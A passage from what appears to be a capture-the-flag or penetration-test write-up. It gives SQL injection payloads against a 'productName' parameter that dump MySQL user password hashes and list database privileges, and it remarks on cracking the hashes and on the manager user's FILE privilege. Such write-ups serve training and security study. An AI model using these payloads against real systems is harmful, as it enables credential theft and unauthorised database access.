 - Nothing interesting
  - Let's check `mysql` database
  - `productName=' union select host,user,password,4,5,6 from mysql.user-- -`
  - We can start cracking hashes in the background

![](./images/9.png)

- Let's also check privileges
  - We are `manager` user
  - `productName=' union select grantee,privilege_type,is_grantable,4,5,6 from information_schema.user_privileges-- -`
  - `manager` has `file` privileges

![](./images/10.png)

![](./images/11.png)
